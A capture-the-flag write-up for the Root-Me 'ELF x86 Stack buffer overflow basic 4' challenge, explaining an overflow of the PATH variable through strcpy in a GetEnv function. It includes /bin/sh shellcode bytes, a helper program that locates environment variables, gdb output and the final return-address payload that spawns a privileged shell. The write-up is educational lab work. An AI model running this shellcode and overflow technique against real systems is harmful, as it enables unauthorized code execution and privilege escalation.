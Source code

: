# ELF x86 - Stack buffer overflow basic 4
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-4
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch8@challenge02.root-me.org   
Username	app-systeme-ch8
Password	app-systeme-ch8
```
A quick review of the source code can reveal that there is an overflow vulnerability in the **GetEnv** function, because it uses the _strcpy_ function.
All the 4 variables are vulnerable to overflow. So the most reason choice will be to exploit the _PATH_ variable's overflow (because it's last).<br>

First, the _USERNAME_ is not set. So, let's just put junk into it using the command ```export USERNAME=BBBB```.<br>

No ASLR nor NX, so a simple overflow-with-shellcode will do it.<br>
We need a place to put our shellcode. Because there is no real input function in the program, let's put it in an environment variable. Let's call it **SHELLCODE**.<br>

At the end of the *GetEnv* function, the stack will be formed as the following figure:
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
The offset to the return address (from _PATH_ is 160 bytes).<br>
**But** in _ebp+8_ there is the ```rep movsl dest. address```. And because we're writing a string to the _PATH_ variable, we may mess up this address with the \x00 character. So, we should overwrite the whole address into a writable address.<br>
So in order to solve this problem, let's create another environment variable (let's call it _JUNK_), and let's initiate it with a big buffer.<br><br>

Now, let's find our variables. Using the following C code (credit to Yandros):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char * argv[]) {
    char *ptr;
    if(argc<3){
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;  
    printf("%s will be at %p\n", argv[1], ptr);
}
```
We're able to find both **SHELLCODE** and _JUNK_:
```sh
app-systeme-ch8@challenge02:~$ export SHELLCODE=`python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`
app-systeme-ch8@challenge02:~$ export JUNK=`python -c "print 'B' * 1000"`
app-systeme-ch8@challenge02:~$ /tmp/find_env SHELLCODE ./ch8
SHELLCODE will be at 0xbffff931
app-systeme-ch8@challenge02:~$ /tmp/find_env JUNK ./ch8
JUNK will be at 0xbffffb2b
```

Now it's time to create our payload. But first let's verify our finding:
```gdb
(gdb) set env PATH=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDD
(gdb) run
Starting program: /challenge/app-systeme/ch8/ch8 
[+] Getting env...

Program received signal SIGSEGV, Segmentation fault.
0x00444444 in ?? ()
```
So we can control the _eip_. Now let's replace the 'DDDD' with the **SHELLCODE** address and add the _JUNK_ address to the end of the payload:
```sh
app-systeme-ch8@challenge02:~$ export PATH=`python -c "print 'A'*160 + '\x31\xf9\xff\xbf' + '\x2b\xfb\xff\xbf'"`
app-systeme-ch8@challenge02:~$ ./ch8
$ id
uid=1108(app-systeme-ch8) gid=1108(app-systeme-ch8) euid=1208(app-systeme-ch8-cracked) groups=1208(app-systeme-ch8-cracked),100(users),1108(app-systeme-ch8)
$ cat .passwd
<censored>
```
